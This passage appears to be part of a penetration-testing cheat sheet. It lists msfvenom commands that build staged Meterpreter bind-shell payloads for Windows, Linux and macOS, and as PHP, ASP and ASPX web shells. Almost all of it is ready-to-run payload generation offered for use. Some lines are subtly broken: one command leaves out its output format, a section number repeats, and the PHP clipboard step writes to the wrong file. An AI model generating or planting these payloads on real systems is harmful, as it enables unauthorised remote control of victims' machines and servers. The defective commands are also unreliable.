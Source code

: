 `$ msfvenom -p windows/meterpreter/bind_hidden_tcp ahost=<IP> lport=<PORT> -f exe -o hidden-met-x64.exe`

`$ msfvenom -p windows/meterpreter/bind_named_pipe lport=<PORT> pipename=<PIPENAME> -f -o met-x86.exe`

2. **x86-64 (64-bit) Payloads**

`$ msfvenom -p windows/x64/meterpreter/bind_tcp lport=<PORT> -f exe -o met-x64.exe`

`$ msfvenom -p windows/x64/meterpreter/bind_tcp_rc4 lport=<PORT> rc4password=<KEY> -f exe -o met-x64.exe`

For the SMB pipe the default for LPORT will always be port **445** 

`$ msfvenom -p windows/x64/meterpreter/bind_named_pipe lport=<PORT> pipename=<PIPENAME> -f exe -o met-x64.exe`

##### 2.6.2.3 - Staged Linux Meterpreter Bind Shells

1. **x86 (32-bit) Payloads**

`$ msfvenom -p linux/x86/meterpreter/bind_tcp lport=<PORT> -f elf -o met-x86`

2. **x86-64 (64-bit) Payloads**

`$ msfvenom -p linux/x64/meterpreter/bind_tcp lport=<PORT> -f elf -o met-x64`

##### 2.6.2.3 - Staged Mac OSX Meterpreter Bind Shells

1. **x86-64 (64-bit) Payloads**

`$ msfvenom -p osx/x64/meterpreter/bind_tcp lport=<PORT> -f macho -o met-x64`

##### 2.6.2.3 - Staged Meterpreter Bind Webshells

1. **PHP**

`$ msfvenom -p php/meterpreter/bind_tcp lport=<PORT> -f raw > met.php`

`$ cat met.php | xclip -selection clipboard && echo '<?php ' | tr -d '\n'> shell.php && xclip -selection clipboard -o >> met.php`

2. **ASP**

- x86 (32-bit) Payloads

`$ msfvenom -p windows/meterpreter/bind_tcp lport=<PORT> -f asp -o met-x86.asp`

- x86-64 (64-bit) Payloads

`$ msfvenom -p windows/x64/meterpreter/bind_tcp lport=<PORT> -f asp -o met-x64.asp`

3. **ASPX**

- x86 (32-bit) Payloads

`$ msfvenom -p windows/meterpreter/bind_tcp lport=<PORT> -f aspx -o met-x86.aspx`

- x86-64 (64-bit) Payloads

`$ msfvenom -p windows/x64/meterpreter/bind_tcp lport=<PORT> -f aspx -o met-x64.aspx`
